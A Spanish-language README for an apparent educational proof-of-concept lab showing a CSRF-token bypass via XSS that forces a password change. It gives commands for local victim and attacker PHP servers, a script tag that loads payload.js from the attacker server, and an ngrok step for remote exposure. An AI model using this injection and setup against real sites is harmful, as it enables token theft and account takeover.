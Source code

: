 # CSRF Token Bypass via XSS (Proof of Concept)

## 🎯 Objetivo
Demostrar cómo un atacante puede evadir protección CSRF usando XSS para capturar el token legítimo y forzar un cambio de contraseña.

## 📁 Estructura del Proyecto

```
csrf-xss-bypass/
├── victim/
│   └── index.php
├── attacker/
│   ├── payload.js
│   └── server.php
```

## 🐘 Requisitos
- PHP (instalado por defecto en Kali)
- Firefox
- Ngrok (opcional para exponer atacante)

## ⚙️ Cómo ejecutar

### 1. Iniciar la víctima

```bash
php -S 127.0.0.1:8000 -t victim
```

Acceder a: http://127.0.0.1:8000

### 2. Iniciar el servidor atacante

```bash
php -S 127.0.0.1:9000 -t attacker
```

### 3. Inyectar el payload XSS

Desde consola del navegador víctima:

```html
<script src="http://127.0.0.1:9000/payload.js"></script>
```

### 4. Resultado

- El token CSRF es robado
- `server.php` lo usa para enviar un POST legítimo
- Contraseña cambiada sin interacción de la víctima

## 🌍 Opcional: Exponer con Ngrok

```bash
ngrok http 9000
```

Reemplazar la URL en `payload.js` con la de Ngrok para hacerlo accesible remotamente.

---

## ⚠️ Advertencia
Este proyecto es únicamente con fines educativos. No lo uses en sistemas sin autorización.
